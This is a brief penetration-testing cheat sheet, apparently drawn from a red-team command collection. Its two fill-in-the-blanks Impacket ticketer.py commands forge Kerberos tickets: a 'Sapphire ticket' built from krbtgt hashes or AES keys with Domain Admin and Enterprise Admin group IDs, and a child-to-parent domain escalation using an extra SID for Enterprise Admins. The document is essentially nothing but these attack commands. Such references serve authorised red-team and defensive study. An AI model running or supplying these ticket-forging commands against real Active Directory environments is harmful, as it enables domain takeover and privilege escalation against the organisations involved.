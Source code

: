 # Ticketer
#plateform/linux #target/remote #cat/ATTACK


## Ticketer with Sapphire ticket
#plateform/linux #target/remote #cat/ATTACK
```
ticketer.py -request -domain "<domain>" -user "<user>" 
-password "<password>" -nthash '<krbtgt/service NT hash>' -aesKey '<krbtgt_service_AES_key>' -domain-sid '<DOMAIN_SID_HERE>' -user-id '1337' -groups '512,513,518,519,520' '<target>'
```

## Ticketer - Child to Parent
#plateform/linux #target/remote #cat/ATTACK
```
ticketer.py -aesKey '<child_krbtgt_aeskey>' -domain <CHILD_DOMAIN_NAME> -domain-sid <YOUR_DOMAIN_SID> -extra-sid <TARGET_DOMAIN_HERE>-519 Administrator -user-id 500
```